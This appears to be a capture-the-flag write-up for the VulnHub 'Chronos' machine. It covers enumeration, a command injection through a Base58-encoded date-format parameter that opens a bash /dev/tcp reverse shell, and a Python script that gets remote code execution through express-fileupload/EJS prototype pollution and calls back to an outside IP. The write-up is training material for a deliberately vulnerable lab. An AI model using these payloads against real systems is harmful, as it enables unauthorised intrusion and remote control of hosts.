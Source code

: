 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)

Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)

Finding another webservice on 127.0.0.1:8080, I checked the system for the files. 

```
www-data@chronos:/opt/chronos-v2/backend$ pwd
/opt/chronos-v2/backend
```
```
www-data@chronos:/opt/chronos-v2/backend$ cat server.js 
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```

cat package.json

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",                                                                                                                                                                                                                              
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}

```

---
## User




reverse shell

```
### imports
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.96/8888 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")

```


